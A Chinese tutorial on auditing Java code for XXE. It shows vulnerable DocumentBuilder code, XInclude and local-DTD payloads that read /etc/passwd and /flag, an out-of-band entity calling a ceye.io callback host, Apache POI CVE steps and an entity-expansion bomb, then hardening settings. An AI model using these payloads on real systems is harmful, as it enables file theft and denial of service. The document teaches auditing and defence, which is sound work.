# 一篇文章读懂Java代码审计之XXE

# 前言

- 学习总结Java审计过程中笔记，审计方法
- 阅读要求：有简单Java代码基础，了解漏洞原理
- 阅读时长：30min 篇幅比较长

---

# 漏洞简介

   简单来说，XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

---

# 有回显

   不说废话，先看效果，成功读取文本内容。tip: 本次测试中需要将`Content-Type: application/x-www-form-urlencoded`修改成`Content-Type: application/xml`不然就无法成功。  
  
  
   **代码分析漏洞成因：**

```java
public String xxeDocumentBuilderReturn(HttpServletRequest request) {
        try {
            String xml_con = WebUtils.getRequestBody(request);
            System.out.println(xml_con);

            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            DocumentBuilder db = dbf.newDocumentBuilder();
            StringReader sr = new StringReader(xml_con);
            InputSource is = new InputSource(sr);
            Document document = db.parse(is);  // parse xml

            // 遍历xml节点name和value
            StringBuffer buf = new StringBuffer();
            NodeList rootNodeList = document.getChildNodes();
            for (int i = 0; i < rootNodeList.getLength(); i++) {
                Node rootNode = rootNodeList.item(i);
                NodeList child = rootNode.getChildNodes();
                for (int j = 0; j < child.getLength(); j++) {
                    Node node = child.item(j);
                    buf.append(node.getNodeName() + ": " + node.getTextContent() + "\n");
                }
            }
            sr.close();
            System.out.println(buf.toString());
            return buf.toString();
        } catch (Exception e) {
            System.out.println(e);
            return "except";
        }
    }
```

**不难发现我们只要清楚这四行代码功能，就能很好清楚Java解析XML机制。**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            DocumentBuilder db = dbf.newDocumentBuilder();
            StringReader sr = new StringReader(xml_con);
            InputSource is = new InputSource(sr);
            Document document = db.parse(is);
```

   DocumentBuilderFactory是一个抽象工厂类，它不能直接实例化，但该类提供了一个newInstance方法 ，这个方法会根据本地平台默认安装的解析器，自动创建一个工厂的对象并返回。  


---

# 无回显



```java
public String DocumentBuilder(HttpServletRequest request) {
        try {
            String xml_con = WebUtils.getRequestBody(request);
            System.out.println(xml_con);

            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            DocumentBuilder db = dbf.newDocumentBuilder();
            StringReader sr = new StringReader(xml_con);
            InputSource is = new InputSource(sr);
            Document document = db.parse(is);  // parse xml

            // 遍历xml节点name和value
            StringBuffer result = new StringBuffer();
            NodeList rootNodeList = document.getChildNodes();
            for (int i = 0; i < rootNodeList.getLength(); i++) {
                Node rootNode = rootNodeList.item(i);
                NodeList child = rootNode.getChildNodes();
                for (int j = 0; j < child.getLength(); j++) {
                    Node node = child.item(j);
                    
                    if (child.item(j).getNodeType() == Node.ELEMENT_NODE) {
                        result.append(node.getNodeName() + ": " + node.getFirstChild().getNodeValue() + "\n");
                    }
                }
            }
            sr.close();
            System.out.println(result.toString());
            return result.toString();
        } catch (Exception e) {
            System.out.println(e);
            return "except";
        }
    }
```

   我们使用burp比较器分析两部分代码，不能发现左边就是多了一个判断语句。（左:无回显代码 右:有回显代码）  
  
*`if (child.item(j).getNodeType() == Node.ELEMENT_NODE)`*  
 正常解析XML，需要判断是否是ELEMENT\_NODE类型。否则会出现多余的的节点。

---

对于这样子无回显的验证可以使用ceye.io网站，具体方法：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE joychou [
    <!ENTITY xxe SYSTEM "http://ip.port.xxxx.ceye.io/xxe_test">
]>
<root>&xxe;</root>
```

  
  
   复测过程中遇见的小坑，个人感觉纯属玄学问题。两次请求数据几乎是一模一样的，但是返回结果愣是不一样，一个200一个400。（充分体现了挖洞得随缘，有时候姿势对了，但是结果不对可能不是你的错误）  
  


---

# Xinclude

**什么是xinclude**  
   顾名思义，xinclude可以理解为xml include熟悉编译/脚本语言的一定熟知，像php的include，python和java的import都是可以进行文件包含的。  
**那么文件包含有什么好处？**  
   当然是可以使代码更整洁，我们可以将定义的功能函数放在function.php中，再在需要使用功能函数的文件中使用include包含function.php，这样就避免了重复冗余的函数定义，同样可以增加代码的可读性。故此，xinclude也不例外，它是xml标记语言中包含其他文件的方式。

```xml
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///E:/1.txt" parse="text"/>
</root>
```



```java
public String xxe_xinclude_DocumentBuilder(HttpServletRequest request) {
       try {
           String xml_con = WebUtils.getRequestBody(request);
           System.out.println(xml_con);

           DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
           dbf.setXIncludeAware(true);   // 支持XInclude
           dbf.setNamespaceAware(true);  // 支持XInclude
           DocumentBuilder db = dbf.newDocumentBuilder();
           StringReader sr = new StringReader(xml_con);
           InputSource is = new InputSource(sr);
           Document document = db.parse(is);  // parse xml

           NodeList rootNodeList = document.getChildNodes();
           String str = new String();
           for (int i = 0; i < rootNodeList.getLength(); i++) {
               Node rootNode = rootNodeList.item(i);
               NodeList xxe = rootNode.getChildNodes();
               for (int j = 0; j < xxe.getLength(); j++) {
                   Node xxeNode = xxe.item(j);
             
                   str = str + xxeNode.getNodeValue();
                   System.out.println(str);
               }

           }

           sr.close();
           return str;
       } catch (Exception e) {
           System.out.println(e);
           return "except";
       }
   }
```

---

## Payload分享

飘零师傅的payload：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE resetPassword [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
<!ENTITY % expr 'aaa)>
<!ENTITY &#x25; file SYSTEM "file:///flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:////&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
    %local_dtd;
]>
<request>
    <status>&data;</status>
</request>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
    '>
    %local_dtd;
]>
```

---

# Poi ooxml XXE

## CVE-2014-3529

- 新建xxe.xlsx文件，修改后缀名xxe.zip解压。  
  
- 修改[Content-Types].xml

  ```xml
  <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://xxxxx.xx.ixxo"> ]>
  <x>&xxe;</x>
  ```

  `后因为无法访问ceye.io网站，笔者自己在本地搭建一台服务器。推荐使用phpstudy，开启访问日志，具体方法百度。`  
  
- 重新压缩成zip，在修改成xlsx文件。
- 上传文件  
  
- 或者直接读取文件。

  ```java
  File f = new File("/path/xxe.xlsx");
          FileInputStream in = new FileInputStream(f);

          XSSFWorkbook wb = new XSSFWorkbook(in); // xxe vuln
          XSSFSheet sheet = wb.getSheetAt(0);
          int total = sheet.getLastRowNum();

          for (Row row : sheet){
              for (Cell cell :row){
                 System.out.println(cell.getStringCellValue());
              }
              System.out.println("expection");
          }
  ```
- 看下报错，报出poi错误才是正确的。  
  
- 查看访问记录  
  
- 修复建议，换成3.10-FINAL版本以上  
  

---

## CVE-2017-5644

其他步骤同CVE-2014-3529中的方式，这次是在 xl/workbook.xml 中注入实体:

```xml
<!DOCTYPE x [     
    <!ENTITY e1 "">
    <!ENTITY e2 "&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;">
    <!ENTITY e3 "&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;">
    <!ENTITY e4 "&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;&e3;">
    <!ENTITY e5 "&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;&e4;">
    <!ENTITY e6 "&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;&e5;">
    <!ENTITY e7 "&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;&e6;">
    <!ENTITY e8 "&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;&e7;">
    <!ENTITY e9 "&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;&e8;">
    <!ENTITY e10 "&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;&e9;">
    <!ENTITY e11 "&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;&e10;">
]>
<x>&e11;</x>
```

   <x>&e11;</x> 代码引用ENTITY e11，而 e11 由16 个 e10 组成，递归调用，循环次数达到 16^10 的规模。循环大量的实体引用，会消耗大量的CPU资源，长时间显示占用近100%。

   POIXMLTypeLoader 中，解析xml的时候直接读取xml，没有对实体的数量进行限制。3.11 对 POIXMLTypeLoader 中的实体大小进行了限制 ，最大为4096，但是当实体为空的时候（如上例），还是可以构造空实体，形成大量循环，占用 cpu 资源，造成拒绝服务攻击。

---

# xlsx-streamer XXE

   xlsx-streamer XXE漏洞与Poi ooxml XXE类似，具体查看[参考链接](https://www.itread01.com/hkpcyyp.html)笔者这里就不过多的叙述了。

---

# 代码审计技巧

**查找关键字**

```
javax.xml.parsers.DocumentBuilderFactory;
javax.xml.parsers.SAXParser
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
…………
```

---

# XXE防御

```java
//一般的防护
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

```java
//xinclude防护
dbf.setXIncludeAware(true);   // 支持XInclude
            dbf.setNamespaceAware(true);  // 支持XInclude
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

---

# 推荐案例

[收集了很多国内外知名厂商出现案例](https://www.cnblogs.com/backlion/p/9302528.html)  
[基础知识文章XXE](https://www.freebuf.com/column/156863.html)  
[XXE更多骚操作](https://xz.aliyun.com/t/3357)  
[Apache Solr XXE漏洞分析 -【CVE-2018-8026 】](https://xz.aliyun.com/t/2448)

---

# 参考

<https://blog.csdn.net/weixin_40918067/article/details/90950535>  
<https://github.com/JoyChou93/java-sec-code/wiki/XXE>  
<https://blog.csdn.net/hua1017177499/article/details/78985166>  
<https://p0rz9.github.io/2019/02/27/xxe/>  
<https://www.anquanke.com/post/id/156227>  
<https://www.jianshu.com/p/73cd11d83c30>  
<https://www.itread01.com/hkpcyyp.html>
